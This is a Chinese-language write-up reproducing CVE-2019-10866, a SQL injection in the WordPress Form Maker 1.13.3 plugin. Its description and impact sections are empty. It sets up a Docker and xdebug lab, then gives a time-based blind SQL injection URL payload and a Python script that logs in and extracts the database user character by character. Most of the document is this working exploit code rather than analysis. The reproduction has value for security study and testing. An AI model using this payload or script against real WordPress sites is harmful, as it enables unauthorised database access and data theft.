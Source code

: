 # CVE- 2019-10866 WordPress Plugin - Form Maker 1.13.3 sql注入

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

**环境搭建**

运行环境很简单，只是在vulapps的基础环境的上加了xdebug调试插件，把docker容器作为远程服务器来进行调试。

Dockerfile文件:


```bash
FROM medicean/vulapps:base_lamp_php7

RUN pecl install xdebug

COPY php.ini /etc/php/7.0/apache2/
COPY php.ini /etc/php/7.0/cli/
```

docker-compose文件:


```bash
version: '3'
services:
  lamp-php7:
    build: .
    ports:
      - "80:80"
    volumes:
      - "/Users/mengchen/Security/Code Audit/html:/var/www/html"
      - "/Users/mengchen/Security/Code Audit/tmp:/tmp"
```

php.ini中xdebug的配置


```shell
[xdebug]
zend_extension="/usr/lib/php/20151012/xdebug.so"
xdebug.remote_enable=1
xdebug.remote_host=10.254.254.254
xdebug.remote_port=9000
xdebug.remote_connect_back=0
xdebug.profiler_enable=0
xdebug.idekey=PHPSTORM
xdebug.remote_log="/tmp/xdebug.log"
```

因为我是在Mac上，所以要给本机加一个IP地址，让xdebug能够连接


```bash
sudo ifconfig lo0 alias 10.254.254.254
```

PHPStorm也要配置好相对路径:

![](images/15895199889834.png)


插件下载地址:

https://downloads.wordpress.org/plugin/form-maker.1.13.3.zip

WordPress使用最新版就可以，在这里我使用的版本是5.2.2，语言选的简体中文。

PS: WordPress搭建完毕后，记得关闭自动更新。

#### POC


```bash
http://url/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc=,(case+when+(select+ascii(substring(user(),1,1)))%3d114+then+(select+sleep(5)+from+wp_users+limit+1)+else+2+end)+asc%3b
```

Python脚本，修改自exploit-db


```python
#coding:utf-8
import requests
import time

vul_url = "http://127.0.0.1/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc="
S = requests.Session()
S.headers.update({"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,en;q=0.8,zh;q=0.5,en-US;q=0.3", "Referer": "http://127.0.0.1/wp-login.php?loggedout=true", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close", "Upgrade-Insecure-Requests": "1"})
length = 0
TIME = 3
username = "admin"
password = "admin"

def login(username, password):
    data = {
        "log": "admin", 
        "pwd": "admin", 
        "wp-submit": "\xe7\x99\xbb\xe5\xbd\x95", 
        "redirect_to": "http://127.0.0.1/wp-admin/", 
        "testcookie": "1"
        }
    r = S.post('http://127.0.0.1/wp-login.php', data=data, cookies = {"wordpress_test_cookie": "WP+Cookie+check"})


def attack():
    flag = True
    data = ""
    length = 1
    while flag:
        flag = False
        tmp_ascii = 0
        for ascii in range(32, 127):
            tmp_ascii = ascii
            start_time = time.time()
            payload = "{vul_url},(case+when+(select+ascii(substring(user(),{length},1)))%3d{ascii}+then+(select+sleep({TIME})+from+wp_users+limit+1)+else+2+end)+asc%3b".format(vul_url=vul_url, ascii=ascii, TIME=TIME, length=length)
            #print(payload)
            r = S.get(payload)
            tmp = time.time() - start_time
            if tmp >= TIME:
                flag = True
                break
        if flag:
            data += chr(tmp_ascii)
            length += 1
        print(data)
login(username, password)
attack()
```

![](images/15895200294767.png)
